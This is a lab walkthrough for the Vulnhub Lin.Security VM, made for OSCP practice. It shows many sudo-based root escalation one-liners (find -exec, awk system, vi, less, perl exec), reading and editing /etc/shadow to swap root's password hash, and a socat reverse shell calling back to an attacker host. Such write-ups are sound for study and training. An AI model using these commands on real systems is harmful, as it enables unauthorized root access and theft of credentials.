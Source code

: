 ```yaml
---
published: false
---
```

# Lin.Security
Vulnhub virtual machine; OSCP prep box and a change of pace. This box required to execution of multiple binaries that lead to root. Great information to have worked through.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------

Vulnhub Link: https://www.vulnhub.com/entry/linsecurity-1,244/
File: lin.security_v1.0.ova (virtualbox)

Discover VM on network:

    netdiscover -r 192.168.56.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552171216562_image.png)


Target: 192.168.56.115



# Enumeration

Nmap Scan:

    nmap -sV -sC -oA nmap/lin 192.168.56.115

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552171414677_image.png)


SSH (front door) 
Port 111 (non standard port)
Port 2049 (non standard port)

…. Goes back to Vulhub - read description

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552171918887_image.png)


 
without fail… its always the last line… we have credentials.


Login via SSH

    ssh bob@192.168.56.115

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552172001873_image.png)


perform sudo check

    sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552172085761_image.png)


bob has access to quite a few binaries lets investigate:


# Root Binary Practice

`ash`

    sudo ash

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552174023300_image.png)


`awk`

    sudo awk 'BEGIN {system("whoami")}'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552174178117_image.png)


`bin/bash`

    sudo /bin/bash

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552174241167_image.png)


`bin/csh`

    sudo csh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552174332635_image.png)


`curl`
just use curl to download a script

`dash`

    sudo dash

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552181746042_image.png)


`ed`

    sudo ed
    ! whoami

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552183584186_image.png)


(ctrl+z to stop)

`env`

    sudo env /bin/bash

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552183677509_image.png)


`expect`

    sudo expect -i

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552183735112_image.png)


`find`

    sudo find /dev/null -exec sh \;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552183791599_image.png)


`ftp`

    sudo ftp
    ! /bin/bash

`less`

    sudo less shell.sh
    !sh #entered after when inside text editor

shell.sh

    #!/bin/sh
    /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184077652_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184098376_image.png)


`man`

    sudo man man
    !sh entered after when inside text editor

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184210603_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184238970_image.png)


`more`

    sudo more /etc/shadow

(prints shadow file hashes)

`socat`
Attacking machine:

    socat file: 'tty',raw,echo=0 tcp-listen:4444

Victim machine:

    sudo socat exec: 'bash -li',pty,stderr,setsid,sigint,sane tcp 192.168.56.102:4444

reverse connection establishes.


`vi`

    sudo vi
    :shell

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184911527_image.png)


alternative (quicker):

    sudo vi -c '!bash'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552184975026_image.png)


`pico`
first create a new password

    openssl passwd -1 -salt xyz password

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552185072024_image.png)

    sudo pico /etc/shadow

(opens editor to make changes to shadow: replace root password with created password)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552185232178_image.png)


`rvim`

    sudo rvim /etc/shadow

(change password like above `pico`)

`perl`

    sudo perl
    exec "/bin/bash"; #after typed press ctrl+d to execute

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552185418006_image.png)


`tclsh`

    sudo tclsh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_DCC31BBC59536272389F81353E81C5BDD72EFECFA91C200F1D9B6946543B81C9_1552185466954_image.png)


finally inside `/home/susan` lives a file called `.secret` which contains the flag.

*Bring me the root!*

-exec



# Cont. Learning

Shoutout to Hackso.me that has a great write-up with entire breakdown of get inside the box and working through the users. Well documented and worth checking out.

https://hackso.me/lin.security-1-walkthrough/


